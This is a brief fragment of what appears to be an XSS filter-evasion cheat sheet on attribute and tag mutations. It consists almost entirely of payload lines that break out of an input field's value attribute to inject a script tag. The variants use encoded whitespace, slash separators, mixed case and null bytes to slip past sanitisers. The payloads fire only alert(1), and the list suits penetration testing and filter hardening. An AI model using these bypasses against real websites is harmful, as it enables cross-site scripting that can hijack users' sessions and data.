 # Attributes and tags

Column: We can do the same basic modifications to attribute tags and add things like nullbytes
Tags: <input type="text" name="input" value="hello">
<input type="text" name="input" value="><script>alert(1)</script>
<randomtag type="text" name="input" value="><script>alert(1)</script>
<input/type="text" name="input" value="><script>alert(1)</script>
<input&#9type="text" name="input" value="><script>alert(1)</script>
<input&#10type="text" name="input" value="><script>alert(1)</script>
<input&#13type="text" name="input" value="><script>alert(1)</script>
<input/'type="text" name="input" value="><script>alert(1)</script>
<iNpUt type="text" name="input" value="><script>alert(1)</script>
<%00input type="text" name="input" value="><script>alert(1)</script>
<inp%00ut type="text" name="input" value="><script>alert(1)</script>
<input t%00ype="text" name="input" value="><script>alert(1)</script>
<input type="text" name="input" value="><script>a%00lert(1)</script>